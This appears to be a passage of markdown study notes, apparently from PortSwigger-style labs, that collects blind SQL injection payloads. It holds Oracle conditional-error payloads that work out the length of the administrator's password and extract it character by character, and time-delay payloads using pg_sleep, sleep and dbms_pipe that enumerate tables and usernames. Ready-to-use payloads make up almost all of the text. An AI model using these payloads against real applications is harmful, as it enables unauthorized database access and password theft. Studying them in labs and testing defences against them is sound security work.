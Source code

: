 

* **Payloads to determine the length of the password for a user called administrator.**  If the password is greater than 20 characters, then an error (1/0) will result:

```
'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```


* **Extract the password of a user.**  For both payloads, if the character in the current position is correct, then the error (1/0) will execute:


    * Oracle DB:
    
```
'||(select case when(substr((select password from users where username='administrator'),1,1)='z') then to_char(1/0) else '' end from dual)||'
```

```
'||(select case when substr(password,1,1)='z' then to_char(1/0) else '' end from users where username = 'administrator')||'
```


<br>

#### SQLi Blind Time Delays Examples

* Encode:

    * ;   ->   %3b


* Identify if any of the below payloads cause a time delay on the application's response.  Portswigger has a cheat sheet that has more:


    * '||(select dbms_pipe.receive_message(('a'),10) from dual)||'


    * '%3b select sleep(10)--


    * '%3b select pg_sleep(10)--


<br>

* **Payload to enumerate valid tables in the database.**  In this example if the <u>table users does exist</u> then the application will sleep, if it doesn't exist then the application should respond normally:

```
'%3b select case when (1=1) then pg_sleep(10) else null end from users-- 
```


* **Payloads to identify if a user called administrator exists on the table called users:**

```
'%3b select case when (username='administrator’) then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST’ from users where username='administrator')='TEST') then pg_sleep(10) else null end--
```
